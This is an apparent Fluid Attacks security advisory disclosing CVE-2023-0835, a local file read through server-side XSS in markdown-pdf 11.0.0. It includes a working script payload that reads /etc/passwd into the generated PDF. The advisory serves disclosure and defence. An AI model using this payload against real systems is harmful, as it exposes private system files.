 ```yaml
---
slug: advisories/relsb/
title: markdown-pdf 11.0.0 - Local File Read via Server Side XSS
authors: Carlos Bello
writer: cbello
codename: relsb
product: markdown-pdf 11.0.0 - Local File Read
date: 2023-04-10 12:00 COT
cveid: CVE-2023-0835
severity: 7.5
description: markdown-pdf 11.0.0 - Local File Read via Server Side XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Markdown, PDF, LFR
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | markdown-pdf 11.0.0 - Local File Read                              |
| **Code name**         | [RelsB](https://en.wikipedia.org/wiki/Rels_B)                      |
| **Product**           | markdown-pdf                                                       |
| **Affected versions** | Version 11.0.0                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-04-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Server Side XSS                                                                                                             |
| **Rule**              | [425. Server Side XSS](https://docs.fluidattacks.com/criteria/vulnerabilities/425)                                          |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 7.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0835](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0835)                                               |

## Description

markdown-pdf version 11.0.0 allows an external attacker to remotely obtain
arbitrary local files. This is possible because the application does not
validate the Markdown content entered by the user.

## Vulnerability

This vulnerability occurs because the application does not validate that
the Markdown content entered by the user is not malicious.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious
Markdown to markdown-pdf:

### Exploit.md

```html
<script>
    // Path Disclosure
    document.write(window.location);
    // Arbitrary Local File Read
    xhr = new XMLHttpRequest;
    xhr.onload=function(){document.write((this.responseText))};
    xhr.open("GET","file:///etc/passwd");
    xhr.send();
</script>
```

Thus, when markdown-pdf parses the malicious Markdown, it will return the local
file specified in the generated PDF.

## Evidence of exploitation

<iframe src="https://rb.gy/rph20g"
frameborder="0" width="835px" height="505px"
allowfullscreen></iframe>

![LFR-Node-PDF](https://user-images.githubusercontent.com/51862990/220176263-ca40f665-e82b-4521-8c86-42d76d7596be.png)

## Our security policy

We have reserved the ID CVE-2023-0835 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: electron-pdf 11.0.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.npmjs.com/package/markdown-pdf/>

## Timeline

<time-lapse
  discovered="2023-02-20"
  contacted="2023-02-20"
  replied="2023-02-20"
  confirmed=""
  patched=""
  disclosure="2023-04-10">
</time-lapse>
